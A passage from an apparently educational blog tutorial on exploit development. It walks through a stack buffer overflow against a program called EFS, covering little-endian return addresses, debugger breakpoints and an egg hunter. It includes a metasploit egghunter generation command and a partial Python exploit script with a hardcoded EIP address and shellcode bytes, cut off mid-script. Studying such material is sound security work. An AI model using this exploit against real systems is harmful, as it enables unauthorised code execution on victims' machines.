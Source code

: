 A few of you may have noticed the order in which I wrote the address for EIP. No, this is not a typo - The reason for writing the the address backwards has to do with the x86 architechture we are exploiting.
x86 is little endian, which refers to the order in which the bytes are stored in memory. In little endian architechture, the least significant value (in this case 3b) is stored first. We will explore this a 
little more in the shellcode section of the blog. 

Save the above exploit, but dont run it yet. This time we are going to follow the execution flow of our payload. To do this, lets place a breakpoint at the return address. We will do this by heading to the
dissassembly window and right clicking anywhere. Select go to > Expression and input our return address. When the instruction shows up right click on it and toggle a break point. This will pause the program
once execution hits this point.

After we run the exploit we see something interesting. Our program no longer crashes! instead, Our EIP has been overwriten which has redirected execution flow to our breakpoint, which has paused the program.

![So far so good.]({{ "/images/Stack/Breakpoint.png" | absolute_url }})

Now pay close attention to the stack. If we step through our program and execute the PUSH ESP, we will see the address of ESP being pushed onto the stack. Step through it again and we now see execution redirected
to our stack of C's! Now, the program will execute anything we place here instead of C's.

![Booyaaaa]({{ "/images/Stack/C.png" | absolute_url }})

4) Use a small first stage payload to redirect execution into our Big buffer.

Here is where it gets fun. We now have to choose our first stage payload. I am going to show two approaches which we will expand on in different posts.

4.1 - The Egg Hunter

The first approach we will discuss is using an egg hunter. An egg hunter is a piece of shellcode which will look through memory for our marker, or egg. Once it encounters this egg, it will redirect
execution flow here and execute it. In later posts we will go over different egg hunters in depth, but for now we will use metasploit to help us generate one. 

`/usr/share/metasploit-framework/tools/exploit/egghunter.rb -b \x25\x26\x27\x2b -e r00t -f python`  

The b parameter denotes the bad chars. We need to define these so that metasploit knows which characters to avoid. The -e parameter is for our "egg", or the signature that will mark the beginning of 
our second stage payload. Please note that this needs to be four bytes.

We modify our exploit as follows:

``` ruby
#!/usr/bin/python

import socket
import sys

if len(sys.argv) < 2:
	print "Usage: python EFS.py [IP]\n"
	print "i.e python  EFS.py 192.168.56.101\n"
	exit(1)


#Bad Chars= \x25\x26\x27\x2b
#push esp, ret 0x61c5203b

EIP= "\x3b\x20\xc5\x61"

Egghunter = ""
Egghunter += "\x66\x81\xca\xff\x0f\x42\x52\x6a\x02\x58\xcd\x2e\x3c"
```